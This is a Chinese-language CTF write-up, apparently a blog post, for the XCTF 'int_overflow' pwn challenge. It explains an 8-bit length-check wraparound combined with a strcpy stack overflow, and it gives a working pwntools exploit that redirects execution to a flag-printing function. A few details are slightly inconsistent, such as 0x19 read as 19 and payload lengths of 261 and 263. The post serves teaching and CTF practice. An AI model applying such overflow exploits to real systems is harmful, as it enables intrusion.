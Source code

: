 ```yaml
---
layout: post
title:  "xctf-pwn-新手区"
date:   2021-02-06 17:10:31 +0800
tags:
      - binary
---
```


## int_overflow

file命令查看一下
```
int_overflow: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=aaef797b1ad6698f0c629966a879b42e92de3787, not stripped
```
拖入IDA反编译
main函数如下
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+Ch] [ebp-Ch]

  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  puts("---------------------");
  puts("~~ Welcome to CTF! ~~");
  puts("       1.Login       ");
  puts("       2.Exit        ");
  puts("---------------------");
  printf("Your choice:");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 1 )
  {
    login();
  }
  else
  {
    if ( v4 == 2 )
    {
      puts("Bye~");
      exit(0);
    }
    puts("Invalid Choice!");
  }
  return 0;
}
```
跟踪至login

```C
char *login()
{
  char buf; // [esp+0h] [ebp-228h]
  char s; // [esp+200h] [ebp-28h]

  memset(&s, 0, 0x20u);
  memset(&buf, 0, 0x200u);
  puts("Please input your username:");
  read(0, &s, 0x19u);
  printf("Hello %s\n", &s);
  puts("Please input your passwd:");
  read(0, &buf, 0x199u);
  return check_passwd(&buf);
}
```
username那里可读入19个字节而后打印，后面允许输入passwd的长度高达0x199，十进制下为409。后会调用check_passwd函数来检查密码

```C
char *__cdecl check_passwd(char *s)
{
  char *result; // eax
  char dest; // [esp+4h] [ebp-14h]
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(s);
  if ( v3 <= 3u || v3 > 8u )
  {
    puts("Invalid Password");
    result = (char *)fflush(stdout);
  }
  else
  {
    puts("Success");
    fflush(stdout);
    result = strcpy(&dest, s);
  }
  return result;
}
```
输入的passwd的长度存放在v3中，而v3的类型为unsigned _int8，即8位无符号整数，最大值为255。(从汇编的角度也可以查看v3的大小)

```
mov     [ebp+var_9], al
```
al是八位寄存器，[ebp+var_9]对应的就是v3，故v3大小就是一个字节。

在check_passwd函数中发现v3的取值区间为3和8之间，发现高危函数strcpy()。但如果仅仅是这点长度肯定不能造成溢出，因为拷贝的目标参数dest有0x14的空间，绝对压不到返回地址，所以这里还要利用另一个漏洞，即整数溢出。

在IDA中发现了一个未调用的函数what_is_this

```C
int what_is_this()
{
  return system("cat flag");
}
```
故思路是将某函数的返回地址修改为what_is_this的地址就可以实现call flag的操作。

```py
flag_addr = 0x0804868b  #what_is_this的地址
```
整数溢出漏洞是什么？这里简单做一个实验

```C++
#include<iostream>
#include<climits>
using namespace std;
int main(){
	int a;
	a = INT_MAX; //INT_MAX就是获取int类型最大的意思，包含在climits头文件中
	cout << a << endl;
}
```
输出很正常。当我们把a的值+1后
```C++
#include<iostream>
#include<climits>
using namespace std;
int main(){
	int a;
	a = INT_MAX + 1; //INT_MAX就是获取int类型最大的意思，包含在climits头文件中
	cout << a << endl;
}
```
在linux环境下，编译器会提醒溢出，但仍然会输出a的值。

再回到题目这里，v3的最大值为255且为无符号整数,所以当s长度为256时v3=0，并且前面说过s的长度最大可以为409，所以我们输入的s长度在[3,8)区间内与在[259,264)区间内v3的值是一样的，既然大部分人都挑了262，我就挑个261叭。

不过在return之前还有一个leave操作。在字符串拷贝之前，先把拷贝的源地址和目的地址压入堆栈，这里似乎没有任何问题，查看整个函数的汇编代码，就会发现，在函数最开始，压入了 ebp 变量，在函数结尾，存在一条 leave 指令。
而在 32 位程序中，leave 指令等于 
```
mov  esp,ebp
pop ebp
```
两条指令的组合，也就是说，在覆盖函数放回地址之前，还有一次出栈操作，出栈数据大小 4 字节，即覆盖之前还需将这 4 字节覆盖.

紧接着就要将payload填充到261位(259-263之间任选一个)，根据入栈顺序，应该将填充的字符放在后面。
这里有两种方法进行填充：
```py
#计算
payload = 'a' * 0x14 + 'a' * 4 + p32(flag_addr)  + 'a'*(261-0x14-4-4)

#利用python自带的ljust方法
payload = 'a'*0x14 + 'a'*4 + p32(flag_addr)
payload = payload.ljust(261,'a')
```

exp如下

```py
#coding=utf-8
#当你的exp中有中文注释的时候记得加上面这句话来指定编码
from pwn import *
r = process('./int_overflow')
#这里如果直接写process可能会出现错误提示：没有flag那个文件
flag_addr = 0x804868b
payload = 'a'*0x14  +'a'*4 +  p32(flag_addr)
payload = payload.ljust(263,'a')
#或者payload = 'a'*0x14  +'a'*4 + p32(flag_addr) + 'a'*(261-0x14-4-4)
#flag_addr占四个字节
r.sendlineafter("choice:","1")
r.sendlineafter("username:","user")
r.sendlineafter("passwd:",payload)
r.interactive()
```

